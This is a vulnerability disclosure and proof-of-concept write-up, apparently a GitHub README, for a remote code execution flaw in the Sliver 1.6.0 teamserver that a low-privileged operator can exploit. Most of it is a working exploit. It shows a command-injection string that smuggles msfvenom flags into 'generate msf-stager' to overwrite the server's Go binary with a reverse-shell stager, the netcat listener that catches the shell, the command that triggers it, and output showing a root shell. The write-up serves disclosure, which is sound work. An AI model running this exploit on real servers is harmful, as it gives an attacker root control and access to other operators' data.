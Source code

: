 # Sliver Auth RCE

## Description

Sliver version 1.6.0 is vulnerable to RCE on the teamserver by a low-privileged "operator" user. The RCE is as the system root user since the Sliver server is installed as root.

The exploit is pretty fun as we make the Sliver server pwn itself.

![](poc.gif)

## Impact
As described in a [past issue](https://github.com/BishopFox/sliver/issues/65), "there is a clear security boundary between the operator and server, an operator should not inherently be able to run commands or code on the server." An operator who exploited this vulnerability would be able to view all console logs, kick all other operators, view and modify files stored on the server, and ultimately delete the server.

## Reproduction

First configure the Sliver server [in multiplayer mode and add an operator profile](https://sliver.sh/docs?name=Multi-player+Mode).

Next, compile a slightly older version of the Sliver client. The commit after 5016fb8d updates the Cobra command-line parsing library in the Sliver client to strictly validate command flags.

```
git checkout 5016fb8d
VERSION=1.6.0 make client
```

The latest server version is targeted:

```
All hackers gain exalted
[*] Server v1.6.0 - bdfd89167dd47aece2397c638d482f94f3f91cba
[*] Client 1.6.0 - 5016fb8d7cdff38c79e22e8293e58300f8d3bd57
[*] Welcome to the sliver shell, please type 'help' for options`
```

The exploit uses a command injection in the `generate msf-stager` to inject the `--out` flag to `msfvenom`. We overwrite Sliver's own go binary at `/root/.sliver/go/bin/go`:

```
sliver > generate msf-stager --lhost 192.168.0.128 --lport 8888 --advanced --platform=linux&--payload=linux/x64/shell_reverse_tcp&--format=elf&--out=/root/.sliver/go/bin/go

[*] Sliver implant stager saved to: [...]
```

The other injected flags are to force a Linux payload, and not necessary if running the Sliver server on Windows.

If you check the saved implant locally on the client, it's 0 bytes as the output got written to the file on the server instead.

On the attacking machine, setup a netcat shell:

```
$ nc -lvp 8888
Listening on 0.0.0.0 8888
```

Trigger the stager by running a command which executes `/root/.sliver/go/bin/go`:

```
sliver > generate beacon --mtls 1.2.3.4
[*] Generating new windows/amd64 beacon implant binary (1m0s)
[*] Symbol obfuscation is enabled
 ⠼  Compiling, please wait ...
```

A root shell will pop:

```
$ nc -lvp 8888
Listening on 0.0.0.0 8888
Connection received on 192.168.0.183 39238
whoami
root
```

The vulnerable code was introduced in https://github.com/BishopFox/sliver/pull/1281
